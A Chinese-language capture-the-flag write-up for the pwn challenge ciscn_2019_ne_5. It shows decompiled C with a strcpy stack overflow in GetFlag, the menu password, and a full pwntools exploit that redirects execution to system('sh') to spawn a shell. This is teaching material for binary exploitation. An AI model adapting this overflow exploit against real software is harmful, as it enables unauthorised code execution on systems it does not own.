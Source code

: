 ```c
    case 3:
      Print();
      result = sub_804892B(argc, argv, envp);
      break;
    case 4:
      GetFlag(src);
      result = sub_804892B(argc, argv, envp);
      break;
    default:
      result = sub_804892B(argc, argv, envp);
      break;
  }
  return result;
}
```

先输入密码为administrator，然后进入菜单。

问题出在GetFlag里：

```c
int __cdecl GetFlag(char *src)
{
  char dest[4]; // [esp+0h] [ebp-48h] BYREF
  char v3[60]; // [esp+4h] [ebp-44h] BYREF
  *(_DWORD *)dest = 48;
  memset(v3, 0, sizeof(v3));
  strcpy(dest, src);
  return printf("The flag is your log:%s\n", dest);
}
```

因为有fflush，其中的字符串sh可以代替/bin/sh

>    ROPgadget  --binary ciscn_2019_ne_5  --string "sh"

```python
from pwn import *
context(log_level='DEBUG')
io = process("./ciscn_2019_ne_5")
elf = ELF("./ciscn_2019_ne_5")
#io = remote()
sh_addr = 0x080482ea
sys_addr = elf.plt['system']
payload = 'a'*(0x48+4)+ p32(sys_addr)+p32(0xdeadbeef)+p32(sh_addr)
io.recvline()
io.sendline("administrator")
io.recvline()
io.sendline("1")
io.recvline()
io.sendline(payload)
io.recv()
io.sendline("4")
io.interactive()
```
